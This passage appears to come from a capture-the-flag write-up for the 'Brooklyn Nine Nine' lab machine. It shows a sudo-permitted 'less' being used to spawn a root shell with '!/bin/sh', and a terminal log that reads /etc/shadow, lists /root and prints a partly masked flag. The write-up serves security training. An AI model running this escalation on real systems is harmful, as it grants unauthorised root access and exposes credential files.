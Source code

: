Like we are in the `less` application with privilege escalation modus turned on, we can run a command instead of just pressing `q` to exit, type in `!/bin/sh` which will run the default shell and you end up with super cow power. You can find more information about his here for example: https://superuser.com/questions/521399/how-do-i-execute-a-linux-command-whilst-using-the-less-command-or-within-the-man

```
jake@brookly_nine_nine:~$ sudo less /etc/shadow
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -lah /root/
total 32K
drwx------  4 root root 4.0K May 18  2020 .
drwxr-xr-x 24 root root 4.0K May 19  2020 ..
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4.0K May 17  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4.0K May 18  2020 .ssh
-rw-r--r--  1 root root  165 May 17  2020 .wget-hsts
-rw-r--r--  1 root root  135 May 18  2020 root.txt
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63*****a7bb98050796b649e8*****45

Enjoy!!
# uname -a
Linux brookly_nine_nine 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Voila voila! We got the 2 flags!

# Todo 

For later on because it's very late now :-|

- Apparently there are 2 ways to get root access. Need to find the other one.
- Investigate on that image. I guess they have put something funny into ito no? We are all monkeys after all.
